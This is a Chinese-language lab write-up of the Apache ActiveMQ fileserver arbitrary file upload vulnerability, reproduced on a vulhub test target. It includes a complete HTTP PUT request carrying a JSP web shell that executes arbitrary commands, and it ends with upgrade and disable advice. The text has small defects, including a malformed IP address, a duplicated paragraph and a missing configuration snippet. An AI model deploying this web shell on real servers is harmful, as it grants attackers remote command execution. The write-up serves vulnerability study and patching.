





#### ActiveMQ任意文件上传漏洞

该漏洞出现在fileserver应用中，ActiveMQ中的fileserver服务允许用户通过HTTP  PUT方法上传文件到指定目录。Fileserver支持写入文件(不解析jsp),但是支持移动文件(Move)我们可以将jsp的文件PUT到Fileserver下,然后再通过Move指令移动到可执行目录下访问

使用vulhub一键搭建，靶机kali：192.168.1771.37


```
docker-compose up -d
```

环境搭建成功，浏览器访问：http://IP:8161





登录admin账号：默认账号admin/admin，抓包进行修改，使用PUT方法上传文件。ActiveMQ  Web控制台分为三个应用程序：其中admin，api和fileserver，其中admin是管理员页面，api是界面，fileserver是用于存储文件的界面；admin和api需要先登录才能使用，fileserver不需要登录。

 上传jsp文件（系统不稳定，有时成功有时失败），


```
PUT /fileserver/2.jsp HTTP/1.1
Host: 192.168.177.137:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: JSESSIONID=18wws8yzr1a04iz9gfpkkar3p
Authorization: Basic YWRtaW46YWRtaW4=
X-Forwarded-For: 8.8.8.8
Connection: close
Content-Length: 329

<%@ page import="java.io.*"%>
<%
 out.print("Hello</br>");
 String strcmd=request.getParameter("cmd");
 String line=null;
 Process p=Runtime.getRuntime().exec(strcmd);
 BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
 while((line=br.readLine())!=null){
 out.print(line+"</br>");
 }
%>

```

 使用MOVE方法移动文件，成功的包没截上，再次上传是500回显，文件已经上传成功，访问地址，成功解析jsp




 使用MOVE方法移动文件，成功的包没截上，再次上传是500回显，文件已经上传成功，访问地址，成功解析jsp




 

漏洞影响版本：Apache ActiveMQ 5.x ~ 5.14.0

1、ActiveMQ Fileserver 的功能在 5.14.0 及其以后的版本中已被移除。建议用户升级至 5.14.0 及其以后版本。

2、通过移除 `conf\jetty.xml` 的以下配置来禁用 ActiveMQ Fileserver 功能



